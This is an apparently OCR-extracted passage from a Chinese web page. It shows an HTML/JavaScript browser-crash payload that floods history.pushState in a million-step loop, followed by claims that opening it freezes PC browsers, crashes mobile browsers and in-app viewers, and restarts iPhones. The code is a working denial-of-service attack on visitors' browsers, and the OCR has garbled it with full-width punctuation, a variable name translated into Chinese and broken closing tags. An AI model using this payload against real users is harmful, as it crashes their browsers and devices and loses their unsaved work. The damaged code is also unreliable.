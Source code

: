 1. * <HTML>
1. <BODY>
1. <SCRIPT>
1. var total =“”;
1. for（var i = 0; i <1000000; i ++）{
1.    total = total + i.toString（）;
1.    history.pushState（0,0，总计）;
1. }
1. </ SCRIPT>
1. </ BODY>
1. </ HTML>
1. 演示:(温馨提示：请保存浏览器其它窗口的编辑任务）

1. 接来下会发生什么？
1. 点开以后，是这样的：

1. 如果你是PC端用户，点开链接以后，电脑CPU内存极有可能一路狂飙直至浏览器崩溃卡死！
1. 如果你是移动端（安卓，iPhone）用户，点开链接以后你的浏览器会闪退！在微博，微信客户端点开链接同样会闪退.iPhone用Safari打开之后链接之后，手机注销重启了！...
